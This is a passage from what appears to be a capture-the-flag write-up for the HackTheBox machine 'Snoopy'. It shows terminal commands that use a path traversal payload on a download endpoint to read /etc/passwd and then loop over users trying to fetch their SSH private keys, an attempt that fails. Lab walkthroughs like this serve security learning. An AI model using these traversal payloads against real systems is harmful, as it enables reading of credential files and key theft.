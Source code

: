 Tried to get ssh keys, but failed

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ zcat download\?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd|grep sh$|cut -d ':' -f1|xargs
root cbrown sbrown lpelt cschultz vgray

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ for u in $(echo "root cbrown sbrown lpelt cschultz vgray"); do wget "http://snoopy.htb/download?file=....//....//....//....//home/$u/.ssh/id_rsa"; done

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ ls -la
total 12
drwxr-xr-x 7 bravosec kali 4096 Sep 21 18:56  ..
-rw-r--r-- 1 bravosec kali  796 Sep 21 19:57 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd'
-rw-r--r-- 1 bravosec kali    0 Sep 21 20:01 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Froot%2F.ssh%2Fid_rsa'
-rw-r--r-- 1 bravosec kali    0 Sep 21 20:01 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fcbrown%2F.ssh%2Fid_rsa'
-rw-r--r-- 1 bravosec kali    0 Sep 21 20:01 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fsbrown%2F.ssh%2Fid_rsa'
-rw-r--r-- 1 bravosec kali    0 Sep 21 20:01 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Flpelt%2F.ssh%2Fid_rsa'
-rw-r--r-- 1 bravosec kali    0 Sep 21 20:01 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fcschultz%2F.ssh%2Fid_rsa'
-rw-r--r-- 1 bravosec kali    0 Sep 21 20:01 'download?file=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fvgray%2F.ssh%2Fid_rsa'
drwxr-xr-x 2 bravosec kali 4096 Sep 21 20:02  .
```

### mm.snoopy.htb

> http://mm.snoopy.htb/login

![](/assets/obsidian/722e8ed6a85fe46de4bf22d23b28f516.png)
